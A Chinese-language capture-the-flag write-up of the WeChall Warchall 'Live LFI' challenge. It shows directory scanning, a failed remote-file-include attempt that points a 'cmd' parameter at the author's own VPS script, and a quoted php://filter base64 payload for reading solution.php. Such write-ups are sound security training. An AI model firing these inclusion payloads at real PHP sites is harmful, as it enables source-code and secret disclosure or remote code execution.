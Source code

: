 题目地址：http://www.wechall.net/challenge/warchall/live_lfi/index.php
如题目所提示，是PHP文件包含漏洞。
访问给出的题目地址，网页提示“网站正在建设中”

## 扫描目录
和所有web漏洞一样，先dirbuster扫描一下
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1007/2.PNG)

---

test.php报错
 
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1007/3.PNG)
require_once()语句在脚本执行期间包含并运行指定文件
/home/level/14_live_fi/www/test.php不是一个目录，然后报错了。

>info1:网站所在目录路径： **/home/level/14_live_fi/www/**

---

## 猜解参数
猜测应该是远程文件包含remote file include，于是访问rfi.php发现页面是空白。
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1007/5.PNG)

因为看不到源码，所以只能爆破试试。
发现cmd是可能的命令参数。
`/temp/rfi.php?cmd=http://127.0.0.1:80/test.php`
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1007/6.PNG)
查看源代码，多了`<pre></pre>`这个字符串。

访问`/temp/rfi.php?cmd=http://vps的ip:888/whale.php`
![访问本地文件](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1007/7.PNG)
远程文件包含似乎没有成功。

所以搞不懂cmd这个参数到底怎么用。

## 重新扫描
找不到线索，于是重新扫描

>info2: 整理下已知网站目录
http://lfi.warchall.net/protected/
http://lfi.warchall.net/temp/

`http://lfi.warchall.net/protected/logs/20180905_critical_details.txt`
可以分析出，log目录下，记录了来自各地的尝试文件包含的攻击记录。
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1007/8.PNG)
而这个攻击记录，则表明，文件包含使用的是require_once()这个函数
而漏洞指明了index.php 的第11行。

## 线索

![查看源码](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1007/9.PNG)

于是我返回了index.php
![10](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1007/10.PNG)

现在考虑一下，题目意思是什么，本地文件包含通常会泄露敏感信息。
然后下一步就是找flag了吧
![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1007/11.PNG)

找不到flag所在的路径啊！好气

## writeup
[writeup](https://joizel.readthedocs.io/ko/latest/wargame/web/[wechall]%20Warchall_Live%20LFI.html)
看了一些wp，发现解题思路是这样的：solution.php因为是脚本文件，所以客户端是不能直接查看的。

要通过以下协议，将php编码一下再查看。`?lang=php://filter/convert.base64-encode/resource=solution.php"`

按照wp，这道题其实坏了，得不出flag的。有点坑。
![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1007/12.PNG)



